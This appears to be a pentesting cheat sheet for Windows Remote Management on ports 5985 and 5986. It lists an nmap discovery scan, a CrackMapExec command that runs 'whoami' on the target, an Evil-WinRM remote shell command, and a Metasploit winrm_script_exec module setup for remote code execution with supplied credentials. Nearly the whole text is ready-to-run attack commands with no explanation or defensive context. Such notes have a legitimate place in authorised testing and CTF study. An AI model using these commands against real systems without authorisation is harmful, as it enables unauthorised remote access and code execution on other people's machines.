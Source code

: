 # WinRM (TCP/5985, 5986)

## Discovery

nmap -sV -p 5985,5986 <TARGET_IP>
CrackMapExec quick checks

crackmapexec winrm <TARGET_IP> -u <USER> -p <PW> -x "whoami"
Evil-WinRM shell

evil-winrm -i <TARGET_IP> -u <USER> -p '<PW>'
Metasploit exec

use exploit/windows/winrm/winrm_script_exec
set RHOSTS <TARGET_IP>
set USERNAME <USER>
set PASSWORD <PW>
set FORCE_VBS true
run
